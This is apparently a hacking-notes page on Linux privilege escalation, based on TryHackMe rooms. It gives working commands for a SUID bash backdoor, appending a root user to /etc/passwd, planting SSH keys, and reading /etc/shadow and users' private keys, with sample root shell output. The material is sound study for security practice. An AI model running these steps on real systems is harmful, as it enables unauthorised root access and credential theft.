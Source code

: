 ```yaml
---
description: >-
  Go from a low privilege user, to a higher one to gain access to thing you're
  not supposed to
---
```


# Linux Privilege Escalation

If a system has been set up well, you might not instantly get all the privileges on the machine when you get in. It's pretty common to have a web server run as a low-privilege user, so if it ever gets hacked the attacker might not be able to do much on the server.

The point of Privilege Escalation is to abuse features of the system to execute commands as more privileged users, and thus escalating your own privileges on the system.​ Most of the information was from the Linux PrivEsc rooms on TryHackMe:

{% embed url="https://tryhackme.com/room/linprivesc" %}
First PrivEsc room with some basic techniques
{% endembed %}

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
Second Privesc room with more advanced techniques and a lot of detail
{% endembed %}

## Getting Shells

Often in privilege escalation, you're letting a high-privilege user execute some command. Sometimes you can't directly execute a shell as that user and have to run some other command to send a way to get a shell somewhere. One simple way is to just execute a reverse shell as that user. Then you will get a privileged reverse shell in your listener. See [#reverse-shells](../hacking-linux-boxes.md#reverse-shells "mention") for some examples of this.&#x20;

Another easy way if you already have access to the box, is to create a [suid.md](suid.md "mention") binary of bash that the target user is the owner of. The safest way to do this is to first copy /bin/bash to another location, which will make the owner of the file the user that executed the command. Then to later get back those privileges just add the SUID bit with `chmod +s` to take over the privileges of the owner when you execute the program as a low-privilege user.&#x20;

{% code title="Let target execute:" %}
```shell
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

<pre class="language-shell-session" data-title="Low-privilege user"><code class="lang-shell-session"><strong>$ /tmp/bash -p  # -p to maintain privileges
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Write files

If you can only write to files, without running commands, you can write to some specific locations to later execute commands. If you can append data to a file, try adding a root user to `/etc/passwd` with a password that you know yourself. Then you can log in as that user and get root privileges:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ openssl passwd hacker  # Generate password
</strong>aQeFa8LxllpT.
</code></pre>

Then if you somehow append this following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

```shell
hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
```

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ su hacker
</strong>Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

If the box uses SSH, another way would be to append your own public key to the `.ssh/authorized_keys` file in their home directory. This allows you access to the user via SSH because you were explicitly allowed to. Just `cat` out your own `~/.ssh/id_rsa.pub` starting with `ssh-rsa`, and copy it to a new line in the `.ssh/authorized_keys` file. Then you are allowed to log in simply using SSH:

```shell-session
$ ssh root@$IP
```

{% hint style="warning" %}
Default installations of SSH don't allow logging in as `root`. To check this look at the `PermitRootLogin` option in `/etc/ssh/sshd_config`:

```shell-session
$ grep PermitRootLogin /etc/ssh/sshd_config
PermitRootLogin yes
```
{% endhint %}

### Read files

Being able to read files as a privileged user can allow you to read sensitive information. The first is the shadow hashes in `/etc/shadow`, which you can then copy to your own machine to crack (See more info in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention")). Then if you have cracked a password you can just log in as that user using `su`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ su root
</strong>Password: password123
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

Another common file to read is SSH private keys. These are located in the user's home directory in a `.ssh` folder. To find the home directory for a user you can check `/etc/passwd`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ cat /etc/passwd | awk -F: '{print $1, $6}'
</strong>root /root
...
www-data /var/www
user /home/user
</code></pre>

This folder often contains an `id_rsa` file which is only readable by the user, but contains the private key that can be used to log into SSH as that user. When you are able to read this file, copy it to your attacking machine and use `ssh -i` to use the private key:

<pre class="language-shell-session" data-title="Attacker"><code class="lang-shell-session"><strong>$ cat id_rsa  # Saved private key
</strong>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtc7FngGLGz9oReOq2b7k2grTgvQGtP+Yax3it73ZGuxASVKq
...
BAmcHcSorWfiOeasmS2HsoAqsBJr8DqDVAo4274CYxZooDqq+6Rimg==
-----END RSA PRIVATE KEY-----
<strong>$ chmod 600 id_rsa  # Set correct permissions to allow SSH to use it
</strong><strong>$ ssh -i id_rsa root@$IP
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
